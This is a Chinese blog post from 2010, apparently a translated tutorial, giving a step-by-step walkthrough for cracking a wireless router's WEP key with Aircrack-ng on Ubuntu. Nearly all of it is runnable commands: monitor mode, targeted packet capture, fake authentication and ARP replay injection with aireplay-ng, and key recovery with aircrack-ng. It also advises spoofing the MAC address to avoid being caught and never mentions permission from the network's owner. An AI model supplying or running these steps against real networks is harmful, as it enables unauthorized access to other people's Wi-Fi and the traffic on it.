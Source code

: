 ```yaml
---
author: admin
comments: true
date: 2010-06-14 03:06:56
layout: post
title: ubuntu10.04 下使用Aircrack-ng破解无线路由AP密码
wordpress_id: 617
categories:
- ubuntu
- 问题解决
---
```


一:工具介绍

无线路由破解工具 Aircrack-ng ，官方网站_[http://www.aircrack-ng](http://www.aircrack-ng/)[ .org](http://www.aircrack-ng .org)_

Aircrack-ng工具包有很多工具，工具主要有以下几个：

    airmon-ng 处理网卡工作模式  

    airodump-ng 抓包  

    aircrack-ng 破解  

    aireplay-ng 发包，干扰  

每个工具的具体参数选项就不一一介绍了,详情请参考原作者:[here](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx)

其他必须的linux命令

    ifconfig 查看网卡状态及参数

    macchanger 伪造 MAC  

    iwconfig 主要针对无线网卡的工具 (同 ifconfig)  

    iwlist 获取无线网络的更详细信息

二: 前期准备

安装工具包: 

    sudo apt-get install aircrack-ng

确保自己的无线网卡已经打开

    ifconfig 显示无线网卡的MAC地址,记下以便日后使用

三:大致步骤描述

1. 修改无线网卡状态：先 down 掉
2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能
3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡
4. 修改无线网卡状态： up
5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标
6. 监听抓包：生成 .cap 或 .ivs
7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包
8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

改变MAC地址请参考:[here](http://www.path8.net/tn/archives/40)

四:具体实践操作

1将无线网卡down掉

    sudo ifconfig wlan0 down 

2 鉴于是实验,也就是折腾,不打算很邪恶,就没有做三.2这一步,这样以来第一步没有多大必要

3启动无线 网卡 的监控模式

    sudo airmon-ng start wlan0 

4查看采用wep 加密的在线AP,ctrl+c退出,保留此终端

    sudo airodump-ng mon0 

5 打开另一个终端,输入以下命令.c后面的6为AP工作频道,替换为要破解的AP相应的工作频道即可.--bissid后面的AP's MAC 是要欲破解AP的MAC地址,也做相应替换,-w后的wep的是抓下来的数据包DATA 保存的文件名(可以随便取名)，然后回车开始抓包

    sudo airodump-ng -c 6 --bssid AP's MAC -w wep mon0 

6 再另开一个终端，输入以下命令.ESSID替换为要破解的AP相应的ESSID,AP's MAC也做相应的替换,My MAC是自己的无线网卡的地址.此步骤用来AP建立虚拟连接.

    sudo aireplay-ng -1 0 -e ESSID -a AP's MAC -h My MAC mon0

7 再打开一个终端,输入以下命令.在6步骤建立虚拟连接成功后,进行注入.同理AP's MAC和My MAC也应该做相应的替换.现在步骤3中数据包应该不断增长。

    sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b AP's MAC -h My MAC mon0

8收集有5000个以上的DATA之后,另开一个终端 ,输入以下命令.进行解密(如果没算出来的话，继续等，Ubuntu aircrack-ng会在DATA每增加多5000个之后就自动再运行 ，直到算出密码为至)

    sudo aircrack-ng wep*.cap

9 如果没有出现意外，你应该会很高兴的看到KEY FOUND!破解出密码后在终端中输入 sudo airmon-ng stop mon0 关闭监控模式，不然无线网卡会一直向刚刚的AP进行注入的，用ctrl+c退出或者直接关闭终端都是不行的，除非重新启动电脑。

参考帖子: [http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html](http://hi.baidu.com/jasey_wang/blog/item/a48a4bb6b3322df931add1cc.html)

原帖:[http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx](http://blog.csdn.net/MHY_MHY/archive/2008/11/07/3244543.aspx) 

引用请注明作者和来源,鄙视抄袭冒充。本文原创（技术说明文档由本人参照英文原文翻译）,作者:MHY_MHY, email:mayc66@gmail.com,欢迎指出错误.最初发表在 [http://blog.csdn.net/mhy_mhy](http://blog.csdn.net/mhy_mhy) ,最后修改17:00 2008/11/6。

